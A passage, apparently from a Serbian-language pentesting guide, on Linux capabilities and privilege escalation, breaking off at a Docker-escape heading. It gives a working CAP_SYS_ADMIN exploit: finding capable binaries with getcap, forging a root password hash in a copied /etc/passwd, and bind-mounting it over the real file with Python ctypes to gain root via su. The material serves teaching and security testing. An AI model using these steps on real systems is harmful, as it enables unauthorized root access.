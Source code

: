 [Iz dokumentacije](https://man7.org/linux/man-pages/man7/capabilities.7.html): Napomena da je moguće dodeliti prazne skupove sposobnosti programskom fajlu, što omogućava kreiranje programa sa postavljenim korisničkim ID-om korena koji menja efektivni i sačuvani korisnički ID procesa koji izvršava program na 0, ali ne dodeljuje nikakve sposobnosti tom procesu. Drugim rečima, ako imate binarni fajl koji:

1. nije vlasništvo korisnika root
2. nema postavljene `SUID`/`SGID` bitove
3. ima prazan skup sposobnosti (npr. `getcap myelf` vraća `myelf =ep`)

taj binarni fajl će se izvršavati kao root.

## CAP\_SYS\_ADMIN

[**`CAP_SYS_ADMIN`**](https://man7.org/linux/man-pages/man7/capabilities.7.html) je izuzetno moćna Linux sposobnost, često izjednačavana sa nivoom korisnika root zbog svojih obimnih **administrativnih privilegija**, kao što su montiranje uređaja ili manipulacija kernel funkcijama. Iako je neophodna za kontejnere koji simuliraju celokupne sisteme, **`CAP_SYS_ADMIN` predstavlja značajne bezbednosne izazove**, posebno u kontejnerizovanim okruženjima, zbog potencijala za eskalaciju privilegija i kompromitovanje sistema. Stoga, njegova upotreba zahteva stroge bezbednosne procene i oprezno upravljanje, sa snažnim naglaskom na odbacivanje ove sposobnosti u kontejnerima specifičnim za aplikaciju, kako bi se poštovao **princip najmanjih privilegija** i smanjila površina napada.

**Primer sa binarnim fajlom**

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```

Korišćenjem pythona možete montirati modifikovanu _passwd_ datoteku preko prave _passwd_ datoteke:

```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```

I na kraju **montirajte** izmenjeni `passwd` fajl na `/etc/passwd`:

```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

I moći ćete **`su` kao root** koristeći lozinku "password".

**Primer sa okruženjem (Docker izlazak iz okvira)**
